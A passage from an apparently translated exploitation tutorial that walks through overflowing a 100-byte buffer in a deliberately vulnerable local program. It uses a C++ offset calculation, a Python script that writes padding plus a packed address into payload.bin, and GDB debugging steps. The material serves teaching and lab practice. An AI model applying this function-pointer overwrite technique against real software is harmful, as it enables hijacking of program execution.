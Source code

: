 Looking at the output, we statically detect that the relevant variable is stored at memory address **"0x401166"** in the **".text"** area. So this value becomes empty at some point and is checked again even though it is empty.

Now we need to detect the padding size of the relevant vulnerable variable so that we can fill it with that much data. For this, you can solve it easily with this code. You can take the **"offsetof"** value as basis. I will explain the long and technical way.

```cpp
#include <cstdio>
#include <cstddef>

typedef struct {
    char kullaniciVerisi[100];
    void (*islemYapPtr)();
} Session;

int main() {
    printf("Size (sizeof(Session)): %zu bytes\n", sizeof(Session));
    printf("Starting position of islemYapPtr (offsetof): %zu bytes\n", offsetof(Session, islemYapPtr));
    return 0;
}
```

Now we start our investigation with GDB. For this, I use the command **"gdb zafiyetli_sunucu"**.

Then we display our codes with the **"list main"** command:

*Displaying Codes with GDB*

After displaying the codes, we need to create a payload for the heap area we calculated earlier. At this stage, we can create the value with a Python script like this.

```python
import struct
PADDING_SIZE = 100 # Temporary value
TARGET_ADDRESS = 0x401176 # Calculated Heap Value
payload = b'A' * PADDING_SIZE + struct.pack("<Q", TARGET_ADDRESS)
with open("payload.bin", "wb") as f: f.write(payload)
print("'payload.bin' created.")
```

Then we return to GDB and write "break 22". This way the code will stop at line 22.

*Breakpoint Assignment*

We slowly increase the PADDING_SIZE value and start testing with the "run < payload.bin" command on GDB.

*Injection Attempt - 1*

At this stage, we see that we are about to pass the if loop. Now, to see if our values have been formed, we first run the "print ses" command to find the location of the value. We note the value that comes out here.

*Finding Variable Location*
